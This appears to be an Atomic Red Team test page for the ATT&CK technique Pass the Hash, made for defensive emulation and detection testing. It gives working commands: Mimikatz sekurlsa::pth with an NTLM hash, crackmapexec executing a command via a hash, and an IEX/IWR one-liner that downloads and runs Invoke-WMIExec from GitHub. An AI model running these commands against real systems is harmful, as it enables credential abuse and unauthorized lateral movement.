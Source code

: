# T1550.002 - Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/002)
<blockquote>Adversaries may “pass the hash” using stolen password hashes to move laterally within an environment, bypassing normal system access controls. Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash.

When performing PtH, valid password hashes for the account being used are captured using a [Credential Access](https://attack.mitre.org/tactics/TA0006) technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.

Adversaries may also use stolen password hashes to "overpass the hash." Similar to PtH, this involves using a password hash to authenticate as a user but also uses the password hash to create a valid Kerberos ticket. This ticket can then be used to perform [Pass the Ticket](https://attack.mitre.org/techniques/T1550/003) attacks.(Citation: Stealthbits Overpass-the-Hash)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - crackmapexec Pass the Hash](#atomic-test-2---crackmapexec-pass-the-hash)

- [Atomic Test #3 - Invoke-WMIExec Pass the Hash](#atomic-test-3---invoke-wmiexec-pass-the-hash)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


**auto_generated_guid:** ec23cef9-27d9-46e4-a68d-6f75f7b86908





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username | String | Administrator|
| ntlm | ntlm hash | String | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | String | %userdnsdomain%|
| mimikatz_path | mimikatz windows executable | Path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} "sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
$mimikatz_relative_uri = Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/latest" -UseBasicParsing | Select-Object -ExpandProperty Links | Where-Object -Property href -Like "*/mimikatz_trunk.zip" | Select-Object -ExpandProperty href
Invoke-WebRequest "https://github.com$mimikatz_relative_uri" -UseBasicParsing -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```




<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash
command execute with crackmapexec

**Supported Platforms:** Windows


**auto_generated_guid:** eb05b028-16c8-4ad8-adea-6f5b219da9a9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username | String | Administrator|
| crackmapexec_exe | crackmapexec windows executable | Path | C:&#92;CrackMapExecWin&#92;crackmapexec.exe|
| command | command to execute | String | whoami|
| ntlm | command | String | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | String | %userdnsdomain%|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{crackmapexec_exe} #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```




#### Dependencies:  Run with `powershell`!
##### Description: CrackMapExec executor must exist on disk at specified location (#{crackmapexec_exe})
##### Check Prereq Commands:
```powershell
if(Test-Path #{crackmapexec_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Automated installer not implemented yet, please install crackmapexec manually at this location: #{crackmapexec_exe}
```




<br/>
<br/>

## Atomic Test #3 - Invoke-WMIExec Pass the Hash
Use Invoke-WMIExec to Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


**auto_generated_guid:** f8757545-b00a-4e4e-8cfb-8cfb961ee713





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|
| user_name | username | string | Administrator|
| command | Command to run on target system | string | hostname|
| target | System to run command on | string | $env:COMPUTERNAME|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://github.com/Kevin-Robertson/Invoke-TheHash/blob/01ee90f934313acc7d09560902443c18694ed0eb/Invoke-WMIExec.ps1' -UseBasicParsing);Invoke-WMIExec -Target #{target} -Username #{user_name} -Hash #{ntlm} -Command #{command}
```






<br/>
